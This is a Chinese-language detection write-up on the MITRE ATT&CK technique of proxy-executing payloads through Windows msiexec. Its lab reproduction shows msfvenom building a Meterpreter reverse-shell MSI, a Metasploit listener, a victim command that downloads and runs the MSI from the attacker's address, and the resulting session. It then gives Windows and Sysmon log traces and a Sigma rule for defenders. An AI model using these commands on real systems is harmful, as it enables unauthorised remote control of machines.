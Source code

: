 # T1218-007-Win-使用Msiexec执行Payload（白名单）

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

说明：Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

· msiexec.exe /q /i"C:\path\to\file.msi"

· msiexec.exe /q /i http[:]//site[.]com/file.msi

· msiexec.exe /y "C:\path\to\file.dll"

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f msi > 1.msi
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) >expliot
```

#### 靶机执行payload

```cmd
msiexec /q /i http://192.168.126.146/1.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49323) at 2020-04-18 22:04:26 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
# windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xe78
新进程名: C:\Windows\System32\msiexec.exe

# sysmon日志
事件ID：1
UtcTime: 2020-04-18 14:04:16.596
ProcessGuid: {bb1f7c32-08e0-5e9b-0000-0010b8ff3f01}
ProcessId: 3704
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: msiexec  /q /i http://192.168.126.146/1.msi
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-08db-5e9b-0000-001049f63d01}
ParentProcessId: 1900
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"
```

## 检测规则/思路

### sigma规则

```yml
title: MsiExec Web Install
status: experimental
description: Detects suspicious msiexec process starts with web addreses as parameter
references:
    - https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/
tags:
    - attack.defense_evasion
author: Florian Roth
date: 2018/02/09
modified: 2012/12/11
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '* msiexec*://*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: medium
```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-007

<https://attack.mitre.org/techniques/T1218/007/>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
